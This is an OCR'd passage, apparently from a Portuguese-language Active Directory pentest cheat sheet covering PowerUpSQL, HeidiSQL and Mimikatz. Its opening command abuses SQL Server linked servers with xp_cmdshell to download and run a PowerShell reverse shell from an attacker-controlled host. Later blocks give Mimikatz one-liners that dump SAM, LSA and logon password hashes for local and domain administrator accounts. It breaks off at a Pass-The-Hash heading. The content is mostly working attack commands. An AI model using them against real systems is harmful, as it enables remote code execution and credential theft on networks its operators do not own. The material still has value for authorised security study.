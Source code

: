 ```powershell
Get-SQLServerLinkCrawl -Instance sql.server.acessivel.local -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://meu.ip/Invoke-PowerShellTcp.ps1'')'" | ft
```

Esses foram os principais comandos que me lembrei do PowerUPSql!

### HeidiSQL

O HeidiSQL é mais simples, apenas colocar a database que eu tenho acesso através do powerupsql, e deixar o login do próprio windows (lembrando que eu devo ter acesso público, pelo menos, pra entrar nela) 

```powershell
# Testando conectividade
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose –Threads 10 | Where-Object {$_.Status –eq "Accessible"}
```

Com o acesso público nós conseguimos escalar privilégios pra 'sa', mas isso eu deixo pra depois pra explicar melhor as técnicas de se fazer isso!

## Mimikatz

Essa parte é importante, mimikatz é uma das melhores ferramentas para exploração em ambiente AD!

#### Dumps

*Dump do Sam (lsadump::sam)→ Local Administrator Hash*

*LogonPasswords (sekurlsa::logonpasswords) → Domain Administrator Hash (Para acessar outras máquinas dentro do domínio)*

#### Hashes

```powershell
# Pegar hash de usuários

./mimikatz.exe lsadump::lsa /patch

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' 

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"' 

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "lsadump::sam" "exit"'
```

### Ataques

#### Pass-The-Hash
